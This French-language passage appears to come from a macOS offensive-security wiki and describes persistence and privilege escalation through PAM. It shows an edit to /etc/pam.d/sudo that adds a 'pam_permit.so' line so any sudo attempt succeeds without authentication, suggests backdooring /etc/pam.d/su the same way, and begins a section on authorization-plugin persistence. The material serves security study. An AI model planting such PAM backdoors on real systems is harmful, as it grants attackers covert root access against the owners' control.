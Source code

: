 Vérifiez les modules PAM avec :
```bash
ls -l /etc/pam.d
```
Une technique de persistance/élévation de privilèges abusant de PAM est aussi simple que de modifier le module /etc/pam.d/sudo en ajoutant au début la ligne :
```bash
auth       sufficient     pam_permit.so
```
Alors cela **ressemblera** à quelque chose comme ceci :
```bash
# sudo: auth account password session
auth       sufficient     pam_permit.so
auth       include        sudo_local
auth       sufficient     pam_smartcard.so
auth       required       pam_opendirectory.so
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
Et donc, toute tentative d'utiliser **`sudo` fonctionnera**.

> [!CAUTION]
> Notez que ce répertoire est protégé par TCC, il est donc très probable que l'utilisateur reçoive une invite demandant l'accès.

Un autre bon exemple est su, où vous pouvez voir qu'il est également possible de donner des paramètres aux modules PAM (et vous pourriez également backdoor ce fichier) :
```bash
cat /etc/pam.d/su
# su: auth account session
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
### Plugins d'autorisation

Writeup: [https://theevilbit.github.io/beyond/beyond_0028/](https://theevilbit.github.io/beyond/beyond_0028/)\
Writeup: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)

- Utile pour contourner le sandbox : [🟠](https://emojipedia.org/large-orange-circle)
- Mais vous devez être root et faire des configurations supplémentaires
- Contournement TCC : ???

#### Emplacement

- `/Library/Security/SecurityAgentPlugins/`
- Root requis
- Il est également nécessaire de configurer la base de données d'autorisation pour utiliser le plugin
